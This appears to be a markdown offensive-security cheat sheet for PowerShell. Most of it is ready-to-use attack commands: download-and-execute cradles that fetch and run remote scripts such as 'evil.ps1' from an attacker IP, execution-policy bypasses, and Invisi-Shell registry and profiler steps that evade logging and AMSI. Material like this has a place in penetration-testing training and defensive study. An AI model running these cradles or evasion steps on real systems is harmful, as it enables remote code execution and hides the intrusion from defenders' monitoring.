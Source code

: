 ### Powershell Scripts/Modules


Import Script or Module :heavy_check_mark:
```
Import-Module C:\path\to\script.ps1
```

Find all commands in module 
```
Get-Command -Module <modulename>
```

Download & Execute Cradle :heavy_check_mark:
```
iex (New-Object Net.WebClient) .DownloadString('https://webservers/payload.ps1')
```

??
```
$ie=New-Object -ComObjectInternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://192.168.230.1/evil.ps1');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response
```
```
$h=New-Object -ComObject
Msxml2.XMLHTTP;$h.open('GET','http://192.168.230.1/evil.ps1',$false);$h.send();iex
$h.responseText
```
```
$wr = [System.NET.WebRequest]::Create("http://192.168.230.1/evil.ps1")
$r = $wr.GetResponse()
IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()
```




### Powershell Detection
- System-wide transcription
- Script Block Logging
- AMSI (AntMalware Scan Interface)
- CLM (Constrained Language Mode)
 - Integration with Applocker & WDAC (Device Guard)

#### Bypasses
##### Execution Policy
:heavy_check_mark:
```
powershell -ExecutionPolicy bypass
```
```
powershell -c <cmd>
```
:heavy_check_mark:
```
powershell -encodedcommand
```
```
$env:PSExecutionPolicyPreference="bypass"
```

##### Security

[Invisi-Shell](https://github.com/OmerYa/Invisi-Shell) :sparkles:

###### **with admin privileges**
```
set COR_ENABLE_PROFILING=1
set COR_PROFILER={cf0d821e-299b-5307-a3d8-b283c03916db}
set COR_PROFILER_PATH=%~dp0InvisiShellProfiler.dll

powershell

set COR_ENABLE_PROFILING=
set COR_PROFILER=
set COR_PROFILER_PATH=
```

###### **with non-admin privileges**
```
set COR_ENABLE_PROFILING=1
set COR_PROFILER={cf0d821e-299b-5307-a3d8-b283c03916db}

REG ADD "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-b283c03916db}" /f
REG ADD "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-b283c03916db}\InprocServer32" /f
REG ADD "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-b283c03916db}\InprocServer32" /ve /t REG_SZ /d "%~dp0InvisiShellProfiler.dll" /f

powershell

set COR_ENABLE_PROFILING=
set COR_PROFILER=
REG DELETE "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-b283c03916db}" /f
```

:broom: can be cleaned up with an *exit* command







